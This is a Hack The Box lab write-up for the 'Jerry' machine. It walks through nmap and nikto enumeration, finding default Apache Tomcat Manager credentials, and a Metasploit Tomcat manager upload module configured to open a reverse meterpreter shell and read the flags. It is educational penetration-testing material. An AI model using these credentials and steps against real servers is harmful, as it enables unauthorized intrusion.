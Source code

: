 ## **Hack The Box - Jerry**

**Creator:** [mrh4sh](https://app.hackthebox.com/users/2570) 

**Difficulty:** Easy

**Link:** [Jerry](https://app.hackthebox.com/machines/144)

---


<ins> **Introduction** </ins>

![Jerry](/docs/assets/images/HTB/jerry/Jerry.png)

Jerry is fourth challenge and second vulnerable box in the Beginner Track on Hack The Box. The challenge involves using metasploit to execute an exploit that takes advantage of the fact that the Windows installer for *Apache Tomcat* used default login credentials in earlier versions.

[CVE-2009-3548](https://nvd.nist.gov/vuln/detail/CVE-2009-3548)

[Exploit-DB-31433](https://www.exploit-db.com/exploits/31433)

---


<ins> **Enumeration** </ins>


My first step with any vulnerable machine is to enumerate for service versions using nmap. 

`Nmap –sV –sC –O <target_IP> >> nmap.txt && cat nmap.txt `

This command tells *nmap* to scan the target IP for service versions and to test any default scripts it may be vulnerable to, along with attempting to identify the OS. It then outputs the results into a file called *nmap.txt* and then displays the contents of the file on screen using *cat*.

![nmap](/docs/assets/images/HTB/jerry/jerry01.png)

> PORT     STATE SERVICE VERSION 
>
> 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 
>
> |_http-favicon: Apache Tomcat 
>
> |_http-title: Apache Tomcat/7.0.88 
>
> |_http-server-header: Apache-Coyote/1.1 
> 
> |_http-open-proxy: Proxy might be redirecting requests 
>
> Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 
>
> Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)

The machine is hosting an *Apache Tomcat/Coyote JSP engine 1.1 webserver* on *port 8080*. The OS scan couldn't say for sure but the machine is likely running on Windows.

---


<ins> **What Didn't Work** </ins>

I had a good lesson here in not limitting myself to the first results of my enumeration, or at the very least my first takeaway from the results.

I used *searchsploit* to look for the version of *apache tomcat* I thought the machine was using based on the *nmap* scan results. This yielded 2 results, one of which was a python script. Since I know a little bit of python I decided to start here.

![searchsploit](/docs/assets/images/HTB/jerry/jerry02.png)

Using `locate` to search for the file path listed on *searchsploit* I was able to easily find this script already stored on my system..

![locate](/docs/assets/images/HTB/jerry/jerry03.png)

Most python scripts utilize the `-h` or `--help` switch to display a menu that usually provides syntax for it's usage. 

![Script help](/docs/assets/images/HTB/jerry/jerry04.png)

The script is fairly simple to use it just requires the `-u` switch and *target IP*. Unfortunately this Webserver isn't actually vulnerable to this exploit.

![Script nope](/docs/assets/images/HTB/jerry/jerry05.png)

My guess is the machine isn't actually running on version 7.0.88 of *apache tomcat*.

---


<ins> **More Enumeration** </ins>

If at first you don't succeed enumerate some more.

One tool I like to use when enumerating a webserver is *nikto*

Taken from it's [repository](https://github.com/sullo/nikto/wiki/Overview-&-Description)

> Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. 

*nikto* comes preinstalled on kali but a direct link to the [repository](https://github.com/sullo/nikto) is always handy.

The usage is pretty simple `nikto -h <target_ip>` does the trick. The -h switch tells nikto that the next line in the arguement will be the ip address to scan.

![nikto](/docs/assets/images/HTB/jerry/jerry06.png)

> + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS  
>
> + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server. 
>
> + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
>
> + Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat. 
>
> + /host-manager/html: Default Tomcat Manager / Host Manager interface found 
>
> + /manager/html: Tomcat Manager / Host Manager interface found (pass protected) 
>
> + /manager/status: Tomcat Server Status interface found (pass protected) 

Some key takeaways from this scan. 

The webserver accepts all basic forms of http requests and clients are likely able to save and remove files from the webserver. In addition to that it runs something called *Tomcat Manger Application* with default credentials listed as *user ID: tomcat* and *password: s3cret* 

earlier I told *searchsploit* to list vulnerablities related to *apache tomcat 7.0.88* which would have missed any results related to *tomcat manager* which there were.

![searchsploit2](/docs/assets/images/HTB/jerry/jerry07.png)

There are 3 exploits related to tomcat manager, one of which is related to uploading which thanks to *nikto* I know I'm able to do.

---


<ins> *Metasploit* </ins> 

In the `msfconsole` I enter `search tomcat manager` to up a list of exploits related to it, there are several but the one I found on *searchsploit* that i'm looking for match *2* on my console so I enter `use 2`

![msfconsole](/docs/assets/images/HTB/jerry/jerry08.png)

Once the module loads up I enter `show options` to see what configurations the exploit needs to run and then set the appropriate ones.

![msfconsole options](/docs/assets/images/HTB/jerry/jerry09.png)

```
set HttpPassword s3cret

set HttpUsername tomcat

set RHOST 10.10.10.95

set RPORT 8080

set LHOST 10.10.14.2

set LPORT 4444
```

After changing configurations I always `show options` again just to verify everything is how I want it.

![options2](/docs/assets/images/HTB/jerry/jerry10.png)

I then set up a listener to catch the shell the payload generated but that wasn't necessary and actually caused an error the first time I ran the exploit.

![exploit](/docs/assets/images/HTB/jerry/jerry11.png)

Enter *shell* in the *meterpreter* grants access to the *command line* From there it was as simple as using various windows commands to navigate through the file system and find the flags. Even though *nmap* told me it was a Windows server earlier I still caught myself using Linux commands several times out of habbit.

![navigate1](/docs/assets/images/HTB/jerry/jerry12.png)

![navigate2](/docs/assets/images/HTB/jerry/jerry13.png)

![navigate3](/docs/assets/images/HTB/jerry/jerry14.png)

The flags are found on the *adminstrator* users *desktop* in a directory called *flags* that contains a single file *"2 for the price of 1.txt"*. Since this is a windows machine the *type* command is what is used to read the file.

![flags](/docs/assets/images/HTB/jerry/jerry15.png)

All that's left to do is submit them on Hack The Box.

![pwned](/docs/assets/images/HTB/jerry/jerry16.png)

---


<ins> **Final Thoughts** </ins>

Another machine in the beginner track defeated with *metasploit*. I was hoping that the *python* script for the first exploit would work out so I didn't have to use *metasploit* again but here we are.  There is probably more than one way to break into this machine as *tomcat manager* had a *XSS* exploit associated with it as well as several other exploits on *metasploit* so perhaps it will be worth revisiting someday. 




